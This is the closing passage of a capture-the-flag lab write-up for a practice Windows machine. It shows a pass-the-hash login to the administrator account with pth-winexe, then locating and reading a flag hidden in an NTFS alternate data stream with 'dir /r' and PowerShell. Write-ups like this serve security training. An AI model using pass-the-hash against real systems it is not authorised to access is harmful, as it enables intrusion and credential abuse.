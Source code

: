 Not working, gonna try the NTLM hash, this time with `pth-winexe`:

```bash
❯ pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
Password for [JENKINS\administrator]:
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

But the root is not in root.txt on the Desktop directory.

If we type the following, we can see an alternate data stream on the file.

```bash
C:\Users\Administrator\Desktop>dir /r
dir /r
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
```

### root.txt

So, with powershell we can check the Stream data of a file:

```bash
C:\Users\Administrator\Desktop>powershell (Get-Content hm.txt -Stream root.txt)
powershell (Get-Content hm.txt -Stream root.txt)
<**REDACTED**>
```

And we are in.

<aside>
🔥

Pwned!!

</aside>
